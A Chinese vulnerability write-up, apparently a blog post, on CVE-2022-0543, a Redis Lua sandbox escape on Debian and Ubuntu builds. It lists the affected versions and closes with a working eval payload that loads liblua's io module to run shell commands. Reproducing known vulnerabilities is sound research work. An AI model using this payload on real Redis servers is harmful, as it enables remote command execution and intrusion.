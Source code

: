 # Redis Lua 沙箱逃逸和远程代码执行 (CVE-2022-0543)

# 漏洞描述

 **Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。[Debian](https://so.csdn.net/so/search?q=Debian&spm=1001.2101.3001.7020)以及Ubuntu发行版的源在打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令**

**要利用此漏洞，攻击者需具有执行 eval 命令的权限（攻击者经过认证、或者 Redis 本身未设置鉴权检查）**



# 影响版本

2.2 <= redis < 5.0.13

2.2 <= redis < 6.0.15

2.2 <= redis < 6.2.5

**只影响运行在 Debian 系的 Linux 发行版系统（Debian、[Ubuntu](https://so.csdn.net/so/search?q=Ubuntu&spm=1001.2101.3001.7020) 等）上的 Redis 服务，其他系统上的 Redis 服务不受影响。**





# 漏洞复现

使用redis-cli工具连接redis数据库

![image-20220426170250220](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220426170250220.png)

发送恶意代码，可以看到回显数据为执行命令id的内容

![image-20220426170322182](C:\Users\雷神\AppData\Roaming\Typora\typora-user-images\image-20220426170322182.png)

连接redis，使用eval命令执行下述脚本：

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

通过该脚本文件可以实现RCE远程代码执行